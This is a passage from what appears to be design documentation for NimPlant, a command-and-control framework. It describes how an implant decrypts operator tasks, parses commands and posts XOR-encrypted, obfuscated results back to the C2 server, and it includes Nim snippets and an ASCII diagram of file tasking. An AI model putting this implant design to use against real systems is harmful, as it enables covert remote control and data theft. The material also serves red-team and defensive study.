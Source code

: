 2. **Task Processing**:
   - Implant decrypts task data using its Unique XOR Key
   - Implant parses JSON response (`webClientListener.nim`) into a `Command Object`: 
     ```nim
     type Command = object
       guid: string
       command: string
       args: seq[string]
     ```

3. **Result Submission** (`postCommandResults` function):
   - After command execution, implant prepares result data:
   - Result is encrypted using Unique XOR Key
   - POST request sent to `/result` endpoint with:
     - Encrypted command output
     - Original task GUID for correlation

    ```nim
    var data = obf("{\"guid\": \"") & cmdGuid & obf("\", \"result\":\"") & base64.encode(output) & obf("\"}")
    discard doRequest(li, li.resultPath, "data", encryptData(data, li.UNIQUE_XOR_KEY), "post")
     ```
   - Server confirms reception with 200 OK response

**Error Handling**:
- If server returns non-200 status code, implant marks it as "NIMPLANT_CONNECTION_ERROR"
- Failed task parsing is handled gracefully, returning empty command and GUID
- All communication is encrypted using implant's unique XOR key
- Base64 encoding prevents issues with binary data transmission

This process ensures secure, reliable command execution and result reporting between the implant and C2 server.

---------------------------------------------------------------------------------------------

### 2. Task Flow: Upload a file to Implant

This process flow is composed by two process under the hood.

**Execute a Command Flow**:


Communication Diagrams:
```
# Admin Server:
# . Operator upload a file and task Implant to download de file.

+----------------+     +------------------+        +----------------+     
|    Operator    |     |   Admin Server   |        |     SQLite     |     
|   Dashboard    |     |    (REST API)    |        |   Database     |     
+----------------+     +------------------+        +----------------+     
        |                      |                          |                      
        |                      |                          |                      
        |-- Upload File ------>|                          |                      
        |                      |-- Store File ----------> |                      
        |                      |  File Hash ID + Metadata |                      
        |<-- Upload Success ---|                          |                      
        |                      |                          |                      
        |-- Queue "upload"---> |                          |                      
        |     Command          |                          |                      
        |                      |-- Store Task ----------> |                      
        |                      |                          |                      
+----------------+     +----------------+        +----------------+             
``` 
